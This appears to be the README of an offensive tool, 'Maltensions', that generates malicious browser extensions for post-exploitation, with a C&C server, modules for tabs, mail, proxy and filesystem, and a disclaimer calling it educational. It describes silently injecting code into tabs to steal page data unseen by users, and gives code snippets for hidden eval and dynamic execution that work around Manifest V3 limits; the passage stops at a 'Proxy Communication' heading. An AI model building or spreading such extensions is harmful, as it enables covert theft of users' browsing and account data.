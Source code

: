 # Maltensions
This is A BETA-Version for Maltensions -> Post-Exploitation methods inside any .extension



## How To Install/Test?
1. Select an Post-Exploitation module (i.e: tabs / mail / proxy / fs / etc).
2. Configure Post-Exploit arguments (args like cc-server and such).
3. Inject this module as script in background context (unpacked-mode / inside other extension with xss & such).

* Compile maltension JS file with (BETA VERSION ONLY - listens over localhost:8080):
```
python3 maltension.py -m mail tabs proxy fs 
```
* Run The simple C&C Server with (for example - listens on localhost:8080):
```
python3 server.py -p8080
```

## NOTES
* The output will be in malty folder under background.js filename.
* For more arguments & explanations, place the arg "--help" and see the results.  
* Look also at the modules folder JS files - that contains the real deal kinda :)
* THIS IS BETA VERSION only - mainly focuses on showing the techniques & such... so yes yes yes - coolish bugs and such might exists inside... but you're welcome to help & continue developing this while giving proper credits & such - Thanks!!! :)
* Please run inside some sadnbox or something like that, this tool is just for educational purposes only, author is not responsible for any damage.

## LEGAL DISCLAIMER 
Usage of Maltensions Tool for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

*For real - this is only for educational purposes & not for harm to be done anywhere!!!


# EXTRA INFO ON MODULES & SOME REQUIREMENTS

## Background extraction
1. Main Required permissions: tabs
2. The technique: Inject dynamic code to "steal" all info and return it back to background context with messaging, that way, users and sites aren't aware of data extraction (DevTools is empty), and the background context can send this data at arbtirary times when he is choosing to.
* Example code for dynamic execution:
```
chrome.tabs.executeScript(tabId= 1000, {code:"alert()", allFrames: true})
```

* In Manifest V3: tabs, scripting. 
* Even though mv3 doesn't natively support script execution - This is manifest-v3 compatible also (using function definition).  		
* Tracking newly opened tabs:
chrome.tabs.onCreated.addListener(e=>console.log("New tab opened, ID=" + e.id + ", JSON Printing:" + JSON.stringify(e)));


## Bonus - Hidden Eval techniques for MV3:

1. Dynamic code execution from background: 
 ```
 chrome.tabs.create({active: false, 
 	'url': 'javascript:eval("alert(\\"dynamic code executed!\\")")'});
 ```

 Then, from the newly opened page - the malicious extension can then post messages back to background to call specific API's as needed.
2. Also, another way is to inject eval/other inline executionable function & then add argument for that function:

```
	function dynamicExec(code) {
		eval(code);
	}
    var results = await chrome.scripting.executeScript({
      target: {
        tabId: tab.id,
      },
      func: dynamicExec,
      args: ["alert('Dynamic code executed!');"],
    });
```


## Proxy Communication
